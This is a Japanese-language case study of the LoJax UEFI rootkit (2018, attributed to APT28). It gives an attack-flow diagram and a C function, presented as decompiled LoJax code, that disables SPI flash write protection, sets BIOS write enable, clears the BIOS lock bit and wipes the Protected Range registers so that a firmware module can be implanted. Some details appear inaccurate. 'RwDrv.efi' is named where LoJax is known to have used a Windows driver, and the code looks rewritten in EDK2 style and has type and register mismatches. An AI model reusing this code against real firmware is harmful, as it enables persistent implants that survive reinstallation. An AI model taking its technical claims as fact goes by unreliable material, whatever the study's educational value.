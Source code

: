 
## Case Study 2: LoJax (2018)

### 概要

**発生年**: 2018年
**攻撃者**: APT28 (Fancy Bear, ロシア政府関連)
**影響範囲**: 東欧政府機関
**脆弱性タイプ**: UEFI Rootkit
**特徴**: 世界初の野生で確認された UEFI マルウェア

### 攻撃フロー

```mermaid
graph TB
    A[初期侵入] --> B[権限昇格]
    B --> C[SPI Flash 保護解除]
    C --> D[UEFI モジュール挿入]
    D --> E[永続化完了]

    C --> C1[WP# ピン無効化]
    C --> C2[BIOSWE/BLE ビット設定]
    C --> C3[Protected Range 解除]

    D --> D1[RwDrv.efi 書き込み]
    D --> D2[ブートチェーンに組み込み]

    E --> E1[OS 再インストール後も生存]
    E --> E2[ディスク交換後も生存]
```

### 技術的詳細

#### Phase 1: SPI Flash 保護の解除

```c
// LoJax が使用した保護解除コード（逆コンパイル）
BOOLEAN DisableFlashProtection(VOID) {
  UINT32  BiosControl;
  UINT32  SpiBase;

  // 1. PCH の SPIBAR を取得
  SpiBase = PciRead32(PCI_LIB_ADDRESS(0, 31, 5, 0x10)) & 0xFFFFF000;

  // 2. BIOS Control Register を読み取り
  BiosControl = MmioRead8(SpiBase + R_PCH_SPI_BC);

  // 3. 保護ビットをクリア
  BiosControl |= B_PCH_SPI_BC_WPD;   // Write Protect Disable
  BiosControl |= B_PCH_SPI_BC_BIOSWE; // BIOS Write Enable
  BiosControl &= ~B_PCH_SPI_BC_BLE;   // BIOS Lock Disable

  // 4. 変更を書き込み
  MmioWrite8(SpiBase + R_PCH_SPI_BC, (UINT8)BiosControl);

  // 5. Protected Range レジスタをクリア
  for (int i = 0; i < 5; i++) {
    MmioWrite32(SpiBase + R_PCH_SPI_PR0 + (i * 4), 0);
  }

  return TRUE;
}
```
